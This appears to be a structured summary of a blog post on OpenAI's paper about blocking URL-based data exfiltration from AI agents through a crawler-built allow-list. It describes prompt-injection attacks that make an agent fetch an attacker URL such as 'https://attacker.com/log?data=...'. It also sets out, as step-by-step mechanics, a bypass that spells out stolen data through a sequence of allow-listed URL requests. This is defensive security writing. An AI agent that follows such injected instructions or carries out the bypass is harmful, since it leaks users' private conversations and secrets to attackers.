


# ETR-002: OpenAI Explains URL-Based Data Exfiltration Mitigations in New Paper

**Source:** [OpenAI Explains URL-Based Data Exfiltration Mitigations in New Paper](https://embracethered.com/blog/posts/2026/data-exfiltration-mitigation-paper-by-openai/) (Embrace The Red, February 2026)

**In one sentence:** OpenAI's mitigation allows only crawler-seen or user-supplied URLs for agent requests, blocking the simple exfil pattern where the model outputs one attacker URL with data in the query string, but bypasses remain (e.g., mapping many allow-listed URLs to characters to leak data over multiple requests).

---

## Overview

OpenAI published a paper titled "Preventing URL-Based Data Exfiltration in Language-Model Agents" that describes mitigations added to reduce the risk of URL-based data exfiltration in ChatGPT and similar agents. The post summarizes the paper's approach, places it in the history of earlier disclosures and fixes, and notes remaining bypass possibilities and adoption risks. The author had reported zero-click data exfiltration to OpenAI in early 2023 (and to Microsoft for Bing Chat; Microsoft applied a Content-Security-Policy-based fix in May 2023). OpenAI introduced initial url_safe-style mitigations in December 2023, with further hardening in August 2025 that addressed attacks demonstrated at BlackHat Europe 2024 and Month of AI Bugs. The new paper explains that OpenAI uses an internal crawler and web index to build an allow-list of URLs; only URLs that have been encountered by the crawler (or that the user enters directly in a message) are treated as safe for the agent to visit. Dynamically constructed URLs are treated as unsafe. The post notes that bypasses remain (for example, using one URL per character from an already-indexed site to leak bits) and that consistent adoption of the mitigation across all surfaces (e.g., mobile apps) and over time is a real-world risk. The mitigation addresses the data exfiltration channel only and does not claim to address indirect prompt injection.

---

## Core Technologies and Architecture

### URL-Based Data Exfiltration Channel

When an AI agent (e.g., ChatGPT) is instructed to fetch or render a URL, the product's backend or client issues an HTTP request to that URL. If the URL is chosen by an attacker and contains sensitive data in the query string or path (e.g., from prompt injection that caused the model to output such a URL), the attacker's server receives that data in the request. The exfiltration channel is the product's own behavior of making outbound requests based on model output or user-triggered actions. Defenses aim to restrict which URLs the agent is allowed to request so that attacker-controlled endpoints cannot receive exfiltrated data.

### OpenAI's Allow-List and Crawler

The paper describes a mitigation where URLs are validated against an allow-list. OpenAI operates a crawler that discovers URLs on the web; any URL the crawler has encountered is added to the allow-list, and the agent is permitted to navigate to it. If the agent (or the model) tries to use a URL that was not pre-seen by the crawler (e.g., a dynamically constructed URL with exfiltrated data in the query string), that URL is considered unsafe and the request is blocked or not made. So safe URLs are those that already exist in OpenAI's web index, not URLs invented at inference time. Additionally, URLs that the user directly enters in a message are treated as safe for that chat session. The post clarifies that OpenAI uses its own web index for this validation, not (as had been speculated earlier) the Bing index.

### Where Mitigations Apply

The post notes that in the past, url_safe-style checks were not applied uniformly. For example, the macOS and iOS apps had not received the mitigation in some time periods, leaving those clients as alternate exfiltration paths. Consistent rollout and adoption of the same policy across all clients and entry points (web, desktop, mobile, APIs) is part of the security story.

---

## Core Concepts

### Allow-List vs Dynamic URL Construction

The mitigation hinges on the difference between (1) URLs that are known to the system because they were crawled or supplied by the user, and (2) URLs that are constructed at runtime (e.g., by the model or by code that concatenates a base URL with user or context data). The former can be allow-listed; the latter are treated as unsafe. So an attacker who wants to receive exfiltrated data must induce the agent to request a URL that is both on the allow-list and attacker-controllable (so the attacker can read the request, e.g., via server logs). If the only allow-listed URLs are those that appeared in crawled content or user input, then purely dynamic exfil URLs (e.g., `https://attacker.com/log?data=...`) are blocked.

### Per-Character or Per-Symbol URL Mapping (Bypass Idea)

Optional: how the symbol-mapping bypass works

The attacker controls or knows a site with many distinct, already-indexed URLs (e.g., 36 paths for A–Z and 0–9). Via indirect prompt injection, they teach the model a mapping from each URL to a character or bit. They then instruct the model to "spell out" sensitive data by causing the agent to request the corresponding URLs in sequence. Each request is allow-listed, but the order or pattern of requests encodes the exfiltrated data; the attacker infers it from server logs.

A bypass described in the post (and in the OpenAI paper) is to avoid constructing a single exfil URL. Instead, the attacker uses a set of allow-listed URLs that the agent can be instructed (e.g., via indirect prompt injection) to map to symbols (e.g., one URL per letter or digit). If the attacker controls or knows a site that has many such URLs already indexed (e.g., 36 distinct URLs for A–Z and 0–9), the model can be taught the mapping and then "spell out" data by selecting which of those URLs to request. Each request leaks a small amount of information (e.g., one character or one bit). The channel is still the agent's outbound requests, but the URLs themselves are pre-existing and thus allow-listed. So leakage of bits or characters remains possible under the current design, with higher complexity for the attacker.

### Session-Scoped and Caching Mitigations (Proposed)

The post suggests two related hardening ideas: (1) prevent the agent from visiting the same full URL more than once in a single session, and (2) cache the response for a short time (e.g., a few minutes). That would make repeated use of the same fixed URL to encode many characters or bits harder, while still allowing normal browsing. The author notes they have not recently tested whether such limits are in place.

---

## Exploit Mechanism

| Step | Actor | Action |
|------|--------|--------|
| 1 | Victim / Product | Includes untrusted content in context (e.g., webpage or document). That content contains prompt injection instructing the model to read sensitive data and output or trigger a URL that encodes it. |
| 2 | Model | Follows injection; outputs or triggers a URL with exfiltrated data in the query string. Product fetches or renders that URL (historical: no check; after mitigation: only if URL is allow-listed). |
| 3 | Attacker | After mitigation: uses a set of allow-listed URLs mapped to symbols and instructs the model (via indirect injection) to request those URLs in sequence to spell out data; infers data from server logs. |

1. **Historical pattern (zero-click exfil).** The user (or the product) includes untrusted content in context (e.g., a webpage or document). That content contains prompt injection that instructs the model to read sensitive data from its context (e.g., conversation history, system prompt) and to output or trigger a URL that encodes that data (e.g., in the query string). The product then fetches or renders that URL, sending the data to the attacker's server. No user click is required.

2. **After allow-list mitigation.** The attacker can no longer use an arbitrary, dynamically built URL (e.g., `https://attacker.com/log?data=...`) if that URL was never crawled and is not user-supplied. So the attacker looks for allow-listed URLs they can control or observe. One approach is to use a set of distinct, already-indexed URLs (e.g., on a site or blog the attacker owns or knows well) and define a mapping from those URLs to characters or bits. Via indirect prompt injection, the attacker teaches the model this mapping and instructs it to "spell out" sensitive data by causing the agent to request the corresponding URLs in sequence. Each request is allow-listed (the URL was crawled or is otherwise considered safe), but the pattern of requests (or the request order) encodes the exfiltrated data. The attacker infers the data from which URLs were requested (e.g., from server logs).

3. **Prerequisites.** Allow-listed URLs that the attacker can associate with symbols and observe (e.g., many distinct paths on an indexed site); a way to get the mapping and exfil instructions into the model's context (e.g., indirect prompt injection via a summarized page or document); and a product that still issues requests to those URLs when the model or flow triggers them.

Optional: session and caching mitigations

The post suggests preventing the agent from visiting the same full URL more than once in a single session, and caching the response for a short time (e.g., a few minutes), to make repeated use of the same fixed URL for encoding many characters or bits harder. The author notes they have not recently tested whether such limits are in place.

---

## Security

- **Allow-listing reduces but does not eliminate exfil.** Restricting the agent to pre-seen or user-supplied URLs blocks the simplest exfil pattern (one dynamic URL with all data in the query string). It does not remove the channel: the agent still makes outbound requests, and an attacker who can map symbols to allow-listed URLs can still leak information over many requests. Defense in depth (e.g., limiting repeated visits to the same URL per session, or short-lived response caching) can raise the bar for such encoding attacks.

- **Consistent adoption matters.** The post stresses that not every developer or every client may apply the same URL-safety policy. Gaps (e.g., mobile apps or certain features not using the same allow-list or crawler-based check) create alternate exfil paths. Security teams should ensure the mitigation is applied everywhere the agent can trigger outbound navigation or resource loading.

- **Scope of the mitigation.** The paper and post focus on URL-based data exfiltration. They do not claim to address indirect prompt injection, model misuse, or other attack classes. Defenses should be clear about what is in scope (exfil via URL requests) and what remains out of scope (e.g., prompt injection that does not rely on URL fetching).

---

## Summary

The post summarizes OpenAI's paper on preventing URL-based data exfiltration in language-model agents. The mitigation uses a crawler-built allow-list: only URLs previously seen by the crawler (or directly entered by the user) are treated as safe for the agent to request; dynamically constructed URLs are unsafe. This blocks the straightforward exfil pattern where the model outputs a single attacker URL with data in the query string. Bypasses remain, including the use of many allow-listed URLs as a per-character or per-symbol encoding so that the sequence of requests leaks data. The post also notes that uniform adoption across clients and the distinction between exfil mitigation and general prompt-injection defense are important for real-world security.

---

## References

- [Preventing URL-Based Data Exfiltration in Language-Model Agents](https://cdn.openai.com/pdf/dd8e7875-e606-42b4-80a1-f824e4e11cf4/prevent-url-data-exfil.pdf) (OpenAI paper)
- [OpenAI Begins Tackling ChatGPT Data Leak Vulnerability](https://embracethered.com/blog/posts/2023/openai-data-exfiltration-first-mitigations-implemented/) (ETR: initial url_safe mitigations and per-URL character-mapping idea)
- [ChatGPT Chat History and Memories Exfiltration](https://embracethered.com/blog/posts/2025/chatgpt-chat-history-data-exfiltration/) (ETR: later mitigations and chat-history exfil)
- [AI Agent Link Safety](https://openai.com/index/ai-agent-link-safety/) (OpenAI: link safety)
- [Simon Willison - Lethal Trifecta](https://simonwillison.net/2025/Jun/16/the-lethal-trifecta/) (referenced in source post)
